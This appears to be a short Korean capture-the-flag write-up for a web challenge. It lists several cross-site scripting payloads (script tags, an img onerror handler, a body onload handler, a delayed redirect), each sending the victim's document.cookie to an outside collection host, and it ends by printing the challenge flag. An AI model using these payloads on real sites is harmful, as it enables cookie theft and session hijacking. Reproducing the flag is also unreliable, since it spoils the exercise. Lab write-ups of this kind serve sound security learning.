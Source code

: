 |

|

## Payload

### 방법 1

---

```jsx
<script>location.href="http://20.41.120.97:10010/"+document.cookie</script>
```

```sql
<img src="asd" onerror=location.href="http://20.41.120.97:10010/"+document.cookie>
```

```sql
<body onload="location.href='http://20.41.120.97:10010/'+document.cookie">
```

```python
<script>setTimeout( () => {location.href="http://20.41.120.97:10010/"+document.cookie;}, 1000);</script>
```

|

### 방법 2

---

```jsx
<script>location.href="https://uplgtbm.request.dreamhack.games/"+document.cookie</script>
```

|

|

### FLAG

---

```
K0{Wh3r3_d1d_my_s3cr3t_k3y?} 
```

|

---
